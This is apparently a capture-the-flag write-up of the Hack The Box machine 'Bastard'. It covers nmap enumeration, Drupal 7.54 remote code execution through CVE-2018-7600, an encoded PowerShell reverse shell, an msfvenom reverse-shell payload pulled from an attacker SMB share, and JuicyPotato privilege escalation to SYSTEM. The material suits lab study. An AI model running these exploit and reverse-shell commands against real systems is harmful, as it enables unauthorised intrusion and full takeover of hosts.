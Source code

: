 # Bastard 
## Enumeration

Starting with a nmap scan I find three open ports 

```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.9 -oG allPorts -vvvv
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 127
135/tcp   open  msrpc   syn-ack ttl 127
49154/tcp open  unknown syn-ack ttl 127
```

Visiting the port 80 I find a drupal login panel

![Desktop View](/img/htb/bastard/drupal_login_1.png)


doing a curl to the changelog.txt I'm able to enumerate the version which in this case is 7.54
```bash
$ curl -s -X GET http://10.10.10.9/CHANGELOG.txt  | head

Drupal 7.54, 2017-02-01
-----------------------
```

## shell as iusr 

searching for some exploits I find this [CVE-2018-7600](https://github.com/pimps/CVE-2018-7600) that allows me to get remote command execution on the machine 

```bash
$ python drupa7-CVE-2018-7600.py -c 'whoami' http://10.10.10.9/
[*] Triggering exploit to execute: whoami
nt authority\iusr
```

To get a stable shell I use the base64 powershell reverse shell from [revshells](https://www.revshells.com/) I start a nc listener on port 9001 and receive the connection

```sh
$ python drupa7-CVE-2018-7600.py -c 'powershell -e JABjAGwAa...' http://10.10.10.9/
```

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 51840

PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
PS C:\inetpub\drupal-7.54> 
```

Enumerating privileges I see that the seimpersonate privilege is enabled which might allow me to use a juicy potato or a similar exploit to elevate privileges

```bash
PS C:\inetpub\drupal-7.54> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
PS C:\inetpub\drupal-7.54> 
```

## shell as nt authority\system

I create a shell.exe file with msfvenom that will give me a reverse shell 

```shell
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -f exe -o shell.exe
```

I download juicy potato and the shell.exe executable files into the target machine 

```sh
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\shell.exe . 
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\jp.exe .
```

I start another nc listener on port 9001 and then I try to run jp.exe with the program shell.exe but it fails

```sh
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p .\shell.exe 
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
```

The reason is that the clsid is wrong so I look for a valid one [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise) I retry the exploit two times until it gives an "OK" response
```shell
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
...........................................
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
....
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\windows\temp\x> 
```

and finally I receive a shell as nt authority\system

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 63808
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```


